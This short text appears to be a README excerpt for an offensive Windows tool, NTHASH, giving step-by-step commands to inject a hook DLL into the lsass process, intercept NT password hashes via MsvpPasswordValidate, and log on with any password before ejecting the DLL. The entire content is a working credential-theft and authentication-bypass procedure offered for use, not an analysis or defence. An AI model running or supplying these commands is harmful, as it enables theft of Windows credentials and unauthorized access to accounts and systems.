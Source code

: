 Hook MsvpPasswordValidate, and intercept the NT hash of the user's password.

How to proceed:

Lets retrieve the pid of lsass : nthash-win64 /enumproc | findstr lsass
NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll
optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook .
test runas /user:Admin cmd OR log on remotely (provide any password) : you win!
NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll
optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook
